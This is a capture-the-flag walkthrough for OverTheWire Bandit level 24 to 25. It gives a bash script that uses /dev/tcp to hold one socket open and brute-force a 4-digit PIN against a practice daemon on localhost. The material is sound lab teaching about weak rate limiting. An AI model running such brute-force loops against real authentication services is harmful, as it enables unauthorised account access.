 # Bandit Level 24 → Level 25

---

## 🎯 Objective

A daemon is listening on port **30002** and will give you the password for **bandit25** if provided with:

- The **correct password for bandit24**, followed by

- A **secret 4-digit numeric PIN code**

You **do not need to open a new connection** for every attempt. The goal is to brute-force the PIN in a single persistent connection using a custom script.


---


## 🛠️ Commands Used (with explanations)

`exec` - Opens, redirects, or closes file descriptors in the shell

`/dev/tcp/host/port` - Bash feature that allows TCP connections via a pseudo-device file

`3<>` - Opens file descriptor 3 for both reading and writing

`read` - Reads a line of input from standard input or a file descriptor

`-r` - Prevents backslashes from being interpreted as escape characters in input

`while` - Starts a loop that continues as long as the condition is true

`<` - Redirects input from a file or file descriptor

`<&3` - Reads input from file descriptor 3 (our TCP connection)

`echo` - Prints text to standard output or a file descriptor

`>&3` - Sends output to file descriptor 3 (our TCP connection)

`&` - Runs the preceding command in the background

`chmod` - Changes file permissions

+x - Adds executable permission to a file

  
---

## 🚀 Steps to Solve
1. **Open your terminal**

2. **Run the following command to log into the server**:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

3. **Enter the password**

4. **Create a temporary directory to work in**:
```bash
mktemp -d
```
  - You should see:
```bash
/tmp/tmp.<tmp_directory>
```

5. **Move into your temporary directory**:
```bash
cd /tmp/tmp.<temp_directory>
```
    
6. **Create your brute-force script**:
```bash
touch script.sh
```
    
7. **Open, edit, and save the script:**:
```bash
nano script.sh
```
  - Add:
    ```bash
    #!/bin/bash

    exec 3<>/dev/tcp/localhost/30002

    while read -r line <&3; do
    echo "Received: $line"
    done &

    for i in {0..9999}; do
    echo "<bandit24_password> $i" >&3
    done

    exec 3>&-
    ```


8. **Make the script executable**:
```bash
chmod +x script.sh
```

9. **Run the script**:
```bash
./script.sh
```

10. **Wait and observe output**:
```bash
Received: Wrong! Please enter the correct current password and pincode. Try again.
Received: Wrong! Please enter the correct current password and pincode. Try again.
Received: Wrong! Please enter the correct current password and pincode. Try again.
Received: Wrong! Please enter the correct current password and pincode. Try again.
Received: Wrong! Please enter the correct current password and pincode. Try again.
```
  - Eventually, you should see:
    ```bash
    Received: The password of user bandit25 is <bandit25_password>
    ```
    

Thats the password for `bandit25`

---

## 🎉 You’ve now completed Level 24 → Level 25!


---

## 🧠 Lessons Learned / Notes
- **Brute-forcing efficiently**: Instead of repeatedly connecting, we keep a single TCP connection open, which is far more efficient and realistic in some real-world attacks.

- **Socket handling in Bash**: Bash's `/dev/tcp/` makes it possible to use network sockets without external tools like `nc` or `telnet`.

- **Persistent file descriptors**: Advanced Bash scripting using exec and custom file descriptors is very powerful.

- **Security takeaway**: Services that do not throttle or limit authentication attempts are vulnerable to brute-force attacks.

